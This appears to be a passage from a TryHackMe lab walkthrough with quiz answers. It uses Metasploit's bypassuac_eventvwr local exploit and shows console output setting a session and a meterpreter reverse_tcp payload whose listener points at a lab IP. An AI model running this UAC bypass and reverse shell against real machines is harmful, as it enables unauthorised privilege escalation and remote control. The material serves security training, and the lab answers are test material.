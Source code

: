 ### Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`

```
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.197.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

```


### Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

Ans> 
LHOST

### Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`

```
msf6 exploit(windows/local/bypassuac_eventvwr) > ip a
[*] exec: ip a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:df:f3:45 brd ff:ff:ff:ff:ff:ff
    inet 172.16.197.128/24 brd 172.16.197.255 scope global dynamic noprefixroute eth0
       valid_lft 1313sec preferred_lft 1313sec
    inet6 fe80::20c:29ff:fedf:f345/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```